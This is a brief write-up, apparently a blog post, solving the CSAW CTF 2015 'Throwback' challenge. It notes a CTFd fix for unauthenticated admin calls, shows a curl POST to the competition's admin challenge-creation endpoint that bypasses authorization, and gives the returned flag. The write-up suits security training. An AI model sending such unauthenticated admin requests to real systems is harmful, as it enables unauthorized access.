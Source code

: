 ```yaml
---
author: Hypersonic
comments: true
date: 2015-09-21 11:37+00:00
layout: post
slug: csaw-ctf-throwback
title: CSAW CTF 2015 - Throwback
---
```


1. We can see a recent bugfix to CTFd, preventing unauthed admin calls at [https://github.com/CTFd/CTFd/commit/9578355143d7af675fc4776b0f2de802be91e261](https://github.com/CTFd/CTFd/commit/9578355143d7af675fc4776b0f2de802be91e261).

2. We make a POST request to it with cURL with: `curl -da=a https://ctf.isis.poly.edu/admin/chal/new`.

3. We get back the flag: `flag{at_least_it_isnt_php}`.

4. Unwrap the flag (remove the `flag{}` around it), and we get the solution: `at_least_it_isnt_php`.
